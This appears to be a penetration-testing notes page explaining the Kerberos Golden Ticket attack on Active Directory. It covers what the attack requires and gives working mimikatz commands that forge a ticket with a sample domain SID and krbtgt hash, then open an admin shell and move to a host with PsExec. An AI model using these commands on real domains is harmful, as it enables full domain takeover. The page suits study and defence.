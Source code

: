 # Golden Ticket

## Intro

Golden Ticket Attack is also a good example of the Pass the Ticket Attack. the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT (with a valid PAC) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical (krbtgt). we would thus have to obtain the NTLM hash of the krbtgt account (RC4) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT (golden ticket). there is no prior credential submission or AS\_REQ/AS-REP.

the difference between a golden ticket and other tickets (including the silver ticket ) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key (which is not easy to get)
3. its typically a TGT for an administrative account (RID 500 in a domain or domain administrator)
4. its typically valid for a long time (10 years by default)

## Creating a Golden Ticket

**with mimikatz we can create a Golden Ticket if we have the following information:**

**KDC LT key (e.g: krbtgt NTLM hash)**

**Domain admin account name**

**SID of domain admin account**

#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](<../../../.gitbook/assets/image (200).png>)

now we can get a shell with admin privileges:

```
misc::cmd
```

![](<../../../.gitbook/assets/image (201).png>)

or using psexe:

```
PsExec64.exe \\192.168.1.105 cmd.exe
```
